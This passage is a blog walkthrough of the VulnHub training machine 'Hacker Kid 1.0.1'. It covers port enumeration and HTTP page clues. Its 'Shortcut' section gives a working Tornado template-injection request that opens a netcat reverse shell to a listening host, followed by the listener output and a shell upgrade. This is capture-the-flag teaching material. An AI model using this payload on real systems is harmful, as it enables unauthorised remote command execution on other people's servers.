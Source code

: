 ```yaml
---
layout: post
title:  "Vulnhub: HACKER KID: 1.0.1"
date:   2021-08-20 20:00:00 +1000
category: hacking
---
```


This is [HACKER KID: 1.0.1](https://www.vulnhub.com/entry/hacker-kid-101,719/) from VulnHub. 

I started this quite a while ago but didn't finish it; now I have and this is how. I totally cheated doing this too by the way. 

## Ports
We've got DNS, HTTP on 80 and another HTTP port on 9999.

## Shortcut
The quick path to a shell here is like this:

{% raw %}
<code>GET /?name={%25+import+os+%25}{{+os.popen("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f | /bin/sh+-i+2>%261 | nc+192.168.1.210+1234+>/tmp/f")+}} HTTP/1.1</code>
{% endraw %}

See?

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hackerkid]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.88] 48032
/bin/sh: 0: cant access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
saket@ubuntu:~$
{% endhighlight %}

What is this? It's an [SSTI](https://ajinabraham.com/blog/server-side-template-injection-in-tornado) on Tornado. How did we get here? I'll explain what I think the creator intended....

## HTTP
If we go to the main webpage (port 80), we get a message saying the server was hacked, and a note:

>More you will DIG me,more you will find me on your servers..DIG me more...DIG me more

If we check the page source we'll see this:

>TO DO: Use a GET parameter page_no  to view pages

If we go to http://192.168.1.88/?page_no=21 we will get this:

>Okay so you want me to speak something ?  
I am a hacker kid not a dumb hacker. So i created some subdomains to return back on the server whenever i want!!  
Out of my many homes...one such home..one such home for me : hackers.blackhat.local  

